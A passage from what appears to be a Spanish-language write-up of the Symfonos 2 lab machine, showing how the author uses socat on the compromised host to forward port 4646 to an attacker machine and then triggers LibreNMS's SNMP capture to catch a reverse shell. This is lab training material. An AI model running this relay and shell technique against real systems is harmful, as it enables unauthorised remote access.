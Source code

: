 Mediante la herramienta `socat` vamos a redirigir las conexiones que entren en la máquina Symfonos por el pueto 4646 a nuestro equipo atacante por el mismo puerto. En una consola a parte volvemos a ganar acceso a la máquina symfonos y ejecutamos socat

```ruby
#Symfonos
bash-4.4$ socat TCP-LISTEN:4646,fork TCP:192.168.1.148:4646
```
En nuestro equipo nos ponemos en escucha en el puerto 4646 y en LibreNMS vamos a Devices > test > Config > Capture > SNMP y ejecutamos con Run

<img src="/assets/VH/Symfonos1-Symfonos2/run.png">
